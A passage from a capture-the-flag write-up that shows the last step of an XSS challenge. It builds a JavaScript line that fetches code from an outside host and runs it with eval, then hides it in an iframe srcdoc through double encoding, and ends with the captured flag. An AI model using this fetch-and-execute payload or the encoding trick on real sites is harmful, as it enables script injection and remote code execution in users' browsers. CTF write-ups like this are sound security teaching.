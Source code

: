 Make javascript to get & execute the payload :
```js
fetch("http://secu.fun:5000/payload").then((response) => response.text()).then((text) => eval(text))
```

Pass it to the `srcdoc iframe` and apply the both encoding like on the challenge part 1, finally we have our last payload !!

```url
http://localhost/?q=%3Ciframe%20srcdoc%3D%22%26lt%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26gt%3B%26%23102%3B%26%23101%3B%26%23116%3B%26%2399%3B%26%23104%3B%26lpar%3B%26quot%3B%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B%26colon%3B%26sol%3B%26sol%3B%26%23115%3B%26%23101%3B%26%2399%3B%26%23117%3B%26period%3B%26%23102%3B%26%23117%3B%26%23110%3B%26colon%3B%26%2353%3B%26%2348%3B%26%2348%3B%26%2348%3B%26sol%3B%26%23112%3B%26%2397%3B%26%23121%3B%26%23108%3B%26%23111%3B%26%2397%3B%26%23100%3B%26quot%3B%26rpar%3B%26period%3B%26%23116%3B%26%23104%3B%26%23101%3B%26%23110%3B%26lpar%3B%26lpar%3B%26%23114%3B%26%23101%3B%26%23115%3B%26%23112%3B%26%23111%3B%26%23110%3B%26%23115%3B%26%23101%3B%26rpar%3B%26%2332%3B%26equals%3B%26gt%3B%26%2332%3B%26%23114%3B%26%23101%3B%26%23115%3B%26%23112%3B%26%23111%3B%26%23110%3B%26%23115%3B%26%23101%3B%26period%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26lpar%3B%26rpar%3B%26rpar%3B%26period%3B%26%23116%3B%26%23104%3B%26%23101%3B%26%23110%3B%26lpar%3B%26lpar%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26rpar%3B%26%2332%3B%26equals%3B%26gt%3B%26%2332%3B%26%23101%3B%26%23118%3B%26%2397%3B%26%23108%3B%26lpar%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26rpar%3B%26rpar%3B%26lt%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26gt%3B%22
```

![](flag.png)

Flag 2 : `PWNME{Th3re_ls_Mu1T1pL3_US4g3_Of_C4CH3:333}`

